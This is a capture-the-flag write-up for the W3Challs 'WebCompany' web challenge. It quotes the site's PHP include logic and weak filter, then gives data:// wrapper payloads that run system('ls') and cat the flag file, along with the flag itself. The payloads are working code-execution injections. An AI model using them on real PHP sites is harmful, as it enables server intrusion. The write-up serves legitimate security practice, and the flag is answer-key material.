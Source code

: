 # WebCompany

1. First, lets go through the [website](http://webcompany.hax.w3challs.com/) and read the [source code](https://git.w3challs.com/challenges/hax/tree/master/webcompany).
2. Then, we press the contact and services button on the website, we could find out an interesting parameter "p". 
3. Now, lets look up the source code of the index.php.
    ```php=
    <?php

    ob_start();

    (include_once 'config.php') === false
        ? die
        : (include_once $incDir .'/'. $securityFile . $incExt) === false
            ? die
            : (include_once $incDir .'/'. $headerFile . $incExt) === false
                ? die
                : isset($_GET['p'])
                    ? is_string($_GET['p'])
                        ? secure($_GET['p'])
                            ? include $_GET['p'] . $pageExt
                            : include_once 'home' . $pageExt
                        : include_once 'home' . $pageExt
                    : include_once 'home' . $pageExt;
    (include_once $incDir .'/'. $footerFile . $incExt) === false
        ? ob_clean()
        : null ;

    ob_end_flush();

    ?>
    ```
    We know that it get "p" to find the page and use the function secure to make sure that the words cannot influence the work. However, we look up the sercurity.inc.php in inc file.
    ```php=
    <?php

    if( defined('CONFIG') === false ) die;

    function secure($url)
    {
        define('START',   1);
        define('END',     2);
        define('CONTAIN', 4);
        define('MATCH',   8);

        $filters = Array(
            'http://'  => START,
            'https://' => START,
            'ftp://'   => START,
            'ftps://'  => START,
            'file://'  => START,
            '/'        => START,
            '..'       => CONTAIN
        );

        foreach ($filters AS $rule => $type)
        {
            $rule = preg_quote($rule);
            switch ($type)
            {
                case START   : $pattern = '#^'.$rule.'#i';  break;
                case END     : $pattern = '#'.$rule.'$#i';  break;
                case CONTAIN : $pattern = '#'.$rule.'#i';   break;
                case MATCH   : $pattern = '#^'.$rule.'$#i'; break;
            }
            if (preg_match($pattern, $url))
                return false;
        }

        return true;
    }

    ?>
    ```
    We know that we are not able to use the words in the filter as the payload.
4. This is a attack called [LFI attack](https://en.wikipedia.org/wiki/File_inclusion_vulnerability). I use the payload in the [website](https://ctf-wiki.github.io/ctf-wiki/web/php/php/). Here is my payload. 
    ```url=
    http://webcompany.hax.w3challs.com/index.php?p=data://text/plain,%3C?php%20system(%22ls%22);?%3E
    ```
    Here is the response.
    ```html=
    config.php
    contact.page.php
    home.page.php
    inc
    index.php
    services.page.php
    style
    yo
    .page.php
    ```
    Then, I use `chdir(yo)` to visit the file and `system("ls")` it. Finally, I get the flag. Here is my payload.
    ```url=
    http://webcompany.hax.w3challs.com/index.php?p=data://text/plain,?php%20chdir(yo);chdir(dawg);chdir(i);chdir(herd);chdir(you);chdir(like);chdir(flagz);system(%22cat%20flagz%22);?%3E
    ```
5. Here is the flag : W3C{d4fuck allow_url_include 1s 0n?!}
